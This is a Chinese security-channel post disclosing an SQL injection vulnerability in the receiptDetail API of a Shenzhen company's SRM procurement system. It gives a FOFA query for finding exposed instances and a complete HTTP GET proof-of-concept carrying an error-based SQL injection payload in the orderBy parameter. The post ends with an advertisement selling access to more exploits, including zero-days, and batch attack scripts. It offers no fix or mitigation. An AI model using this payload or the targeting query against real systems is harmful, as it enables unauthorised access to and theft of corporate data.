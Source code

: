 #  漏洞推送|智互联(深圳)科技有限公司SRM智联云采系统receiptDetail存在SQL注入漏洞   
小白菜安全  小白菜安全   2024-11-25 10:29  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
漏洞描述  
  
  
智互联(深圳)科技有限公司SRM智联云采系统针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。智互联SRM智联云采系统receiptDetail存在SQL注入漏洞，攻击者可利用该漏洞获取敏感信息，高权限可获取服务器权限。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
资产信息  
  
  
fofa:title=="SRM 2.0"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia24ickOmJMibJZsUvn4YWtjDHMkBF7ZS6AtIFlE9l0Xb2bTpozP8OkgWT4XZjH4hwX0XXTQ2CSu9fkA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
漏洞复现  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia24ickOmJMibJZsUvn4YWtjDHvhiamv0kK3PCdw8ickBV9H6rlKMcgIAQJUgMFiaMmjxugFT04dcV78eFg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgxnz3h9W4zxUezdEZiaBGSsPMwDcYyJiaq6oqiaXuW8wdaNQoNDpczOZtg/640?wx_fmt=gif&from=appmsg "")  
  
POC  
  
```
GET /adpweb/api/srm/delivery/receiptDetail?pageSize=1&pageNumber=1&orderBy=1%20AND%20GTID_SUBSET(CONCAT(0x7170707671,(SELECT%20(ELT(8986=8986,1))),0x71626a6b71),8986) HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```  
  
  
---------------------------------------------------  
  
更多漏洞poc（包括0day漏洞）、安全工具、批量脚本加入内部圈子获取，目前只要49，无理由3天退款，加入圈子请扫描下方二维码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wz7rEzD4jThibDB3puG8zRTD9fLx4Ndhglm3VOUhNiczqNuriccyD38ibQw/640?wx_fmt=jpeg "")  
  
  
  
漏洞文库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wh2bIueGiaicJL46kobAMKQCktI8HFTcVM9JpwNibdMKD9ZND0ebC0rwnw/640?wx_fmt=png&from=appmsg "")  
  
  
工具收集：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3w26uxWScqm4lh60gQawZjffnNamZQR8BylhRBdjtf15dWgFsHMwrsFQ/640?wx_fmt=png&from=appmsg "")  
  
  
脚本文库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia2ibXzzibVk15gaIwPj3Libib3wsdaXl2dhDDAJN3ZDl5fYWnGIckTK1vgLVHq2SHDDicic8OkMmMJ1fluw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgOaSVwdVAPT7DWSKK7pjSWGdbQKWEM0yTB3JSqNxLUnEBesOW8eG40w/640?wx_fmt=png&from=appmsg "")  
  
免责声明  
  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/NhLcT1kxlia37svYWabvYzmhrJWdLfIHgAth2WTu4kyEzL1Dia7AXUWcP7tsbHDtpaH1cls1lJTPVNE6XTwLYvJg/640?wx_fmt=gif&from=appmsg "")  
  
  
  
